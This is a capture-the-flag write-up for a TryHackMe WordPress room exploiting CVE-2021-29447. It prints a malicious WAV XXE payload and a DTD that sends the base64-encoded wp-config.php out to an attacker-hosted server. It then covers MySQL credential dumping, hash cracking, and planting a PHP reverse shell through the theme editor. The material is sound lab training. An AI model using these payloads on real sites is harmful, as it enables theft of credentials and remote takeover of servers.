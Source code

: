 Room: [Wordpress: CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)

Difficulty: Medium

Overview: This is a semi-guided challenge room. We will exploit a Wordpress server through a WAV file that will allow us to read the contents of a sensitive file. Gaining access to mysql database to finaly get our foot in machine by using Wordpress themes editor.

------------------------------------------------------------------------------------------------------------------------------------------------------------------

As usual we will start our enumeration by running “nmap” to search for all open ports on the target system:

```
nmap -sV -sC -p- wordpress.thm -oN nmap.txt

-sV → Probe open ports to determine service
-sC → Scan using the default set of scripts
-p- → Scan all ports
-oN → Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/131554897-778e3a32-8854-4197-a272-734d49759a2d.png)

Since this room is a semi guided challenge we will exploit the http web server on port 80 that was built with Wordpress. 

![image](https://user-images.githubusercontent.com/76821053/131554922-bee65342-5aee-476f-90a1-b7405fbf7a87.png)

To bypass the login portal and access the user dashboard we are going to use the credentials that were given in the previous task: 

![image](https://user-images.githubusercontent.com/76821053/131554952-53b74961-1ec5-4d08-ad45-f8ae03e717e3.png)

How to find the login portal path? We can use google to search for it, or we can also use “gobuster” to search for any hidden files or directories, which is always a good practice:

```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://wordpress.thm -x .txt,.log,.php,.html
```

![image](https://user-images.githubusercontent.com/76821053/131554975-40176714-c2af-4488-953a-698136312558.png)

The login portal's path is at "/wp-login.php":

![image](https://user-images.githubusercontent.com/76821053/131555006-cd5cb3fd-89e8-40bc-9582-f78d816f5a7b.png)

Insert the credentials and we are greated by the user dashboard:

![image](https://user-images.githubusercontent.com/76821053/131555046-d78ec0b5-233b-4529-b2d4-06edce25fee8.png)

We can see that the version of this Wordpress web server is 5.6.2 and it has a CVE-2021-29447. This CVE tells us that a user with the ability to upload files can exploit an XML parsing issue in the Media Library leading to XXE attacks. This requires WordPress installation to be using PHP 8. 

Access to internal files is possible in a successful XXE attack. So let's follow the step by step POC (proof of concept) in task 1 of this room:

1. Create a malicious wave file:

```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

![image](https://user-images.githubusercontent.com/76821053/131555072-339bd7ed-1bbe-4e7e-88b5-0006909b0347.png)

In my payload i changed the ip address and port to match my attacker machine. You can check your ip address with the command "ifconfig".

I also changed the name of “NAMEEVIL.dtd” to “payload.dtd”. It is important that this file has an extention of ".dtd".

2. Create a dtd file with the same name has the "NAMEEVIL.dtd" or with the one that you have chosen before. And, we will have to make some slightly changes:

In this payload we need to change the path of the file that we want to read. In the POC the payload reads "/etc/passwd", so we have to change this to read “wp-config.php”.

Every linux server by default is at “/var/www/html" so the config file must be in this path.

```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

In the second part of the payload only change the ip address and port to match your own.

![image](https://user-images.githubusercontent.com/76821053/131555138-dceb62ee-81c9-491c-abd3-654aadd8f5d6.png)

Now that we have created our payloads we have two files in our directory:

![image](https://user-images.githubusercontent.com/76821053/131555162-f4d21a81-2795-4426-b72b-77868a276ecd.png)

3. Before we upload the .wav file to the Wordpress server we have to host an http server in the same directory as the dtd file:

```
php -S 0.0.0.0:8000
```

This php http server have to be listening on the port that we chose for the payloads.

![image](https://user-images.githubusercontent.com/76821053/131555197-c06d68c4-7ab0-4c24-8657-d59930bcf6fa.png)

4. Time to upload the .wav file:

Go to Media tab and just select the .wav payload.

![image](https://user-images.githubusercontent.com/76821053/131555255-60875794-3784-4657-b5bb-1044eb7e55d7.png)

This will execute code on the webserver, it will fetch the dtd file and we will see information stored in the requests off our php HTTP server logs:

![image](https://user-images.githubusercontent.com/76821053/131555293-e96c8d12-ad16-48f0-bf34-7f79a7bbdcea.png)

5. To read the contents of the request we can use this php one liner:

```
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

Create a .php file with the one liner and copy the encoded data from the your php request log and paste it to “base64here”.

![image](https://user-images.githubusercontent.com/76821053/131555314-0af8c5a2-c6de-42f8-9af7-cfafae609d0d.png)

To read it we just do:

```
php filename.php
```

![image](https://user-images.githubusercontent.com/76821053/131555341-c4137e10-81d6-4738-a49a-afa789882614.png)

Success we managed to read the contents of wp-config.php. Inside are database credentials that we'll be taking advantage next.

Looking at the nmap scan we can see that mysql is running on this system. Let's connect to it with the credentials that we have found above:

```
myslq -h wordpress.thm -u USERNAME -p

-h → To specify the URL
-u → Put the username from the database
-p → For connecting with a password
```

![image](https://user-images.githubusercontent.com/76821053/131555375-7c574c84-7b4f-4a57-8a6c-cb112d2a718e.png)

To navigate mysql service, we can start by listing all databases available:

```
show databases;
```

![image](https://user-images.githubusercontent.com/76821053/131555403-b242c4e7-2b07-47bd-a2b3-ece2495ec92c.png)

Now we have to select the correct dabatase and list all the tables inside:

```
use wordpressdb2

show tables;
```

![image](https://user-images.githubusercontent.com/76821053/131555434-78dd0584-11bf-48af-9e11-9612154b63c6.png)

The table that calls out for attention is wptry_users. To dump its contents we can use this command:

```
SELECT * FROM wptry_users;
```

![image](https://user-images.githubusercontent.com/76821053/131555456-4443a6d8-61d2-4700-8959-a919e1561e5f.png)

We have found our user id 1 and his password hash. 

This hash is encryted in MD5. There is a tool called "hash-identifier" that can parse hashes and identify its encryption:

![image](https://user-images.githubusercontent.com/76821053/131555494-9006149d-9f6d-4bb5-845b-391cf46650a1.png)

Now that we know have a hash and now its encryption type it is time to use “John the Ripper”.

But first we need to put this hash into a .txt file and send it to "john":

```
echo 'MYSQL_HASH' > hash.txt

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/76821053/131555533-65f6b2cc-6406-49cf-b2b3-1f020842afaa.png)

Once again we have new credentials and they belong to the Wordpress server.

How can we compromise the machine and get a reverse shell?

We can leverage the fact that we have access to the “admin” dashboard in the wordpress server. And, by editing the appearance of the web page we will get a reverse shell.

To be more specific let's review the steps:

• Create a php reverse shell with "msfvenom" or use the awesome php reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). 

• In the Wordpress server go to "Apperance/Theme Editor" tab and select "Twenty Twenty" .

• Choose a php theme file. I used “404 Template” and overwrite its contents with the php reverse shell payload:

![image](https://user-images.githubusercontent.com/76821053/131555575-2844f4e2-695d-4938-95fe-f6cd96350e49.png)

• If you are using the payload from Pentestmonkey you have to change the ip address and port that i marked with arrows.

• Start a netcat listener on the same port as the payload.

• To trigger the payload we have to access “Themes” tab select “Twenty Twenty” and press “Live Priview”:

![image](https://user-images.githubusercontent.com/76821053/131555602-37116fd4-c554-4890-b221-b0f3d3e85d8d.png)

• Finaly just press any of the contents of the live preview and in your shell you will recieve a connection from the server:

![image](https://user-images.githubusercontent.com/76821053/131555632-d72a7652-c99b-404e-93e3-8dfd4e002a58.png)

Success we have access to the target machine. 

The final flag is at “stux" home directory:

![image](https://user-images.githubusercontent.com/76821053/131555648-438bfaad-cf7a-414c-ada8-fe87f212fb02.png)









































